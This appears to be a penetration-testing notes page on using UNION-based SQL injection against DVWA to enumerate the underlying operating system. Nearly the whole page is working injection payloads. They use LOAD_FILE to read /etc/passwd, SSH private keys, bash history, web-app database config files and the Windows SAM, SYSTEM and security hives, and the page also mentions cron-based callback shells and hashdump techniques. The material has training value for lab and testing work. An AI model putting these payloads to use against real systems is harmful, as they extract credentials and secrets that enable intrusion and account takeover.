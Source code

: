 # 03 - OS Enumeration

Search Tag(s): #sql-injection #union #enumeration-and-discovery #dvwa

## 3.1 - Conditions

1. The DB user must have **FILE** and **SELECT** privileges.
2. Not all files are readable unless the current user is `root@<IP>` (e.g. `root@localhost`). For example, you'll notice that you can't fetch SSH credentials which is normal due to security reasons.

## 3.2 - Enumerate Database User Privileges

```sql
' UNION SELECT NULL, GROUP_CONCAT(user, '->', 'FILE', '->', File_priv, '\n') FROM mysql.user#

' UNION SELECT NULL, GROUP_CONCAT(user, '->', 'FILE', '->', File_priv, '\n') FROM mysql.user WHERE File_priv = 'Y' AND user = 'dvwa'#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES WHERE PRIVILEGE_TYPE LIKE 'SELECT' OR PRIVILEGE_TYPE OR 'FILE' AND GRANTEE LIKE "'dvwa'%"#
```

## 3.3 - Basic Information

### 3.3.1 - Linux

- Enumerate hostname

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/hostname')#
```

- Enumerate user accounts

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/passwd')#
```

- Enumerate user groups

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/group')#
```

- Local IPv4 address

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/network/interfaces')#

' UNION SELECT NULL, LOAD_FILE('/etc/sysconfig/network')#

' UNION SELECT NULL, LOAD_FILE('/etc/networks')#
```

- DNS resolve and nameserver IPs

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/resolv.conf')#

' UNION SELECT NULL, LOAD_FILE('/etc/hosts')#
```

- Environment variables may contain **sensitive information**. You never know that sometimes the sysadmins can be lazy sometimes.

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/profile')#

' UNION SELECT NULL, LOAD_FILE('/etc/bash.bashrc')#

' UNION SELECT NULL, LOAD_FILE('/home/<username>/.bash_profile')#

' UNION SELECT NULL, LOAD_FILE('/root/.bash_profile')#

' UNION SELECT NULL, LOAD_FILE('/home/<username>/.bashrc')#

' UNION SELECT NULL, LOAD_FILE('/root/.bashrc')#
```

- Enumerate installed packages that will give you an idea of what services are installed.

```sql
' UNION SELECT NULL, LOAD_FILE('/var/log/dpkg.log')#

' UNION SELECT NULL, LOAD_FILE('/var/log/yum.log')#
```

- Enumerate kernel version

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/lsb-release')#

' UNION SELECT NULL, LOAD_FILE('/etc/os-release')#

' UNION SELECT NULL, LOAD_FILE('/proc/version')#
```

### 3.3.2 - Windows

```sql
' UNION SELECT NULL, LOAD_FILE('c:/windows/win.ini')#

' UNION SELECT NULL, LOAD_FILE('c:/xampp/php/php.ini')#
```

- DNS resolve and nameserver IPs

```sql
' UNION SELECT NULL, LOAD_FILE('c:/Windows/system32/drivers/etc/hosts')#
```

## 3.4 - Credentials

### 3.4.1 - Linux

- Retrieve SSH keys

```sql
' UNION SELECT NULL, LOAD_FILE('/home/<username>/.ssh/id_rsa')#

' UNION SELECT NULL, LOAD_FILE('/root/.ssh/id_rsa')#
```

- Retrieve database config file. You have to lookup of what web technology it's using such as, a **content management system (CMS)** like wordpress. Find the absolute path of the [[Content Management System (CMS)#^bc9e6e|database config file]] after enumeration phase for the web root directory.

```sql
' UNION SELECT NULL, LOAD_FILE('/var/www/html/dvwa/config.php')#
```

- Retrieve history commands. You can find more in the [[Content Management System (CMS)|privilege escalation credentials]] section.

```sql
' UNION SELECT NULL, LOAD_FILE('/home/<username>/.ssh/.bash_history')#

' UNION SELECT NULL, LOAD_FILE('/root/.ssh/.bash_history')#
```

### 3.4.2 - Windows

```sql
' UNION SELECT NULL, LOAD_FILE('C:/Windows/Repair/SAM')#

' UNION SELECT NULL, LOAD_FILE('C:/Windows/Repair/SYSTEM')#

' UNION SELECT NULL, LOAD_FILE('C:/Windows/System32/config/security')#
           
' UNION SELECT NULL, LOAD_FILE('C:/Windows/System32/config/system')#

' UNION SELECT NULL, LOAD_FILE('C:/Windows/System32/config/sam')#
```

## 3.5 - Privilege Escalation

### 3.5.1 - Linux

- CronJobs may contain backup files that is worth **harvesting the data**. Moreover, there is a possible attack vector to spawn a callback shell. Be on the lookout.

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/crontab')#
```

## 3.5 - Config Files

### 3.5.1 - Linux

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/ssh/sshd_config')#
```

## 3.6 - Hardware

- Check uptime

```sql
' UNION SELECT NULL, LOAD_FILE('/proc/uptime')#
```

- Enumerate mounted drives and network shares.

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/fstab')#
```

- Enumerate CPU cores

```sql
' UNION SELECT NULL, LOAD_FILE('/proc/cpuinfo')#
```

---
## References

### Linux

#### Enumeration and Discovery

- [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/02 - Enumeration and Discovery/Linux/01 - Internal Reconnaissance/01 - Users/C2 Frameworks/Metasploit|Metasploit]]

- [[Environment Variables]]

- [[Log Files]]

- [[System and Kernel Version]]

#### Enumeration and Discovery

- [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/02 - Enumeration and Discovery/Linux/01 - Internal Reconnaissance/03 - Scheduled Tasks/Cron Job/Manual/Living off the Land|Cron Job]]

#### Credentials Access and Dumping

- [[Content Management System (CMS)]]

### Windows

#### Enumeration and Discovery

- [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/02 - Enumeration and Discovery/Windows/Host/Networking/IP Address/Manual/Living off the Land|IP Addresses]]

#### Privilege Escalation

- [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/06 - Credential Access and Dumping/Windows/Host/Registry/Hashdump/01 - Manual/Living off the Land|Manual Hashdump]]
